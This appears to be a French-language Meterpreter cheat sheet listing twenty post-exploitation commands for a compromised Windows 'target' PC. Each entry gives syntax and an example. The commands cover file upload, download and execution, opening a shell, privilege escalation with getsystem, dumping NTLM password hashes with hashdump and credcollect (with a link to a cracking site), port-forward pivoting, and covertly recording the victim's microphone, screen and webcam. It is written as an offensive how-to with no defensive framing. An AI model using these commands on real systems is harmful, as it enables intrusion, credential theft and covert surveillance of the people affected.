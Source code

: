 Commande 1 – Téléversement d’un fichier vers la cible Windows

Il est possible de téléverser n’importe quel fichier de votre Pc local vers le Pc cible.

    Syntaxe: Upload <file><destination>

    ex. meterpreter >upload tntsecurite.txt c:
    Note: Utilisez upload -r pour téléverser des répertoires et leur contenu.

Commande 2 – Téléchargement d’un fichier provenant de la cible Windows

La commande « download » télécharge un fichier provenant du Pc cible Windows.

    Syntaxe: Download <fichier><chemin ou le sauver>

    Note: remarquez dans l’exemple les 2 \\ dans le chemin du fichier lors d’un entrer de chemin Windows.

    ex. meterpreter >download c:\\windows\\temp\\tnt /tmp

    Note: Utlisez download -r pour télécharger un répertoire complet.

Commande 3 – Exécuter un fichier .exe sur la cible

Il est possible d’exécuter une application sur la machine cible en exécuant la commande execute.

    Syntaxe: Execute -f <chemin>

    note: Remaquez dans l’example les 2 \\ qui sont nécessaire lors d’entrer de chemin Windows.

    Ex. meterpreter >execute -f c:\\ »Documents and Settings »\\temp\\hack.exe

Commande 4 – Création d’un nouveau canal avec CMD

Par exemple si on veut exécuter un command prompt sur la cible, la commande serait:

    Syntaxe: Execute -f <path>

    ex. meterpreter >execute -f cmd -c

Commande 5 – Afficher les processus

La commande « ps » affiche les processus roulant sur la cible.

    Syntaxe: ps

    ex. meterpreter >ps

Commande 6 – Ouvrir un shell sur le Pc cible

La commande « shell » vous donneras accès à un shell standard sur le système cible.

    Syntaxe: shell

    ex. meterpreter >shell

Commande 7 – Avoir les droits administarteurs

La commande « getsystem » vous donnera les droits administarteurs sur le Pc cible.

    Syntaxe: getsystem

    ex. meterpreter >getsystem

Commande 8 – Capturer tous les « hash » avec hashdump

Utilisons le pouvoir d’un shell meterpreter en capturant tous les comptes et les mots de passe contenus sur la cible.  Ils seront affiché en format NTLM hash et peut-être « cracké » à l’aide plusieurs outils en ligne.  En voici un: https://hashkiller.co.uk/ntlm-decrypter.aspx

    Syntaxe: hashdump

    ex. meterpreter >hashdump

Commande 9 – Capturer des « hash » à l’aide de credcollect

Un script similaire credential_collector pour  capturer les jetons de la machine cible.

    Syntaxe: run credcollect

    ex. meterpreter >run credcollect

Commande 10 – Création d’une redirection de port

La commande « portfwd » à l’intérieur de Meterpreter est communément utilisé comme une technique de pivot, donnant accès aux Pc qui normalement n’est pas accessible de la machine cible.

L’option add ajoutera la redirection de port à la liste et essetiellement va créer un tunnel.

    Syntaxe: portfwd add -l <port number> -p <port number> -l <Target IP>

    ex. meterpreter >portfwd add -l 1337 -p 1337 -r 192.168.38.101

Commande 11 – Effacement de redirection de port

Les entrées de redirection de ports sont effacées.

    Syntaxe: portfwd delete -l <port number> -p <port number> -r <target IP>

    ex. meterpreter >portfwd delete -l 1337 -p 1337 -r 192.168.38.101

Note: La commande « portfwd list » affichera la liste de redirection de port et pour retirer tous les redirections dans la liste « portfwd flush » peut-être utilisé.

Commande 12 – Rechercher des fichiers sur le Pc cible

La commande « search » permet de chercher pour des fichiers spécifiques sur la machine cible.  La commande est capable de chercher dans tous le système ou dans un répertoire spécifique.  Par exemple si on veut rechercher tous les fichiers .txt la commande serait:

    Syntaxe: search -f *.txt

    ex. meterpreter >search -f *.txt

Commande 13 – Obtenir les informations de l’utilisateur

exécuter « getuid » affichera l’utilisateur utilisé par le serveur Meterpreter comme sur le Pc cible.

    Syntaxe: getuid

    ex. meterpreter >getuid

Commande 14 – Obtenir les informations du système

La commande « sysinfo » vous affichera de l’information à propos du système exploité, comme le nom, le type de OS, l’architecture, la langue, etc.

    Syntaxe: sysinfo

    ex. meterpreter >sysinfo

Commande 15 – Enregistrement du son

La commande « record_mic » enregistre par défaut 1 seconde de son provenant du micro par défaut du Pc cible.

    Syntaxe: record_mic

    Note: Il y a des arguments qui peuvent être utilisés avec la commande « record_mic », le plus important est -d pour définir le temps d’enregistrement autre que 1 seconde.

    ex. meterpreter >record_mic -d 15

Commande 16 – Capture d’écran du bureau

La commande « screenshot » affiche ce qui est présentement affiché sur l’écran du Pc cible.

    Syntaxe: screenshot

    ex. meterpreter >screenshot

Commande 17 – Afficher tous les caméras du Pc cible

La commande « webcam_list » affiche tous les caméras sur le Pc cible Windows

    Syntaxe: webcam_list

    ex. meterpreter > webcam_list

Commande 18 – Une prise d’écran du Pc cible Windows

La commande « webcam_snap » affichera une capture d’écran de la caméra par défaut du Pc cible.

    Syntaxe: webcam_snap

    ex. meterpreter > webcam_snap

Commande 19 – Discussion avec l’utilisateur Windows

La commande « webcam_chat » vous donne accès à discuter avec la personne utilisant le Pc cible.

    Syntaxe: webcam_chat

    ex. meterpreter >webcam_chat

Commande 20 – diffusion de la caméra

La commande « webcam_stream » vous permet de diffuser à votre écran ce que la caméra de la victime film en temps réel.

    Syntaxe: webcam_stream

    ex. meterpreter >webcam_stream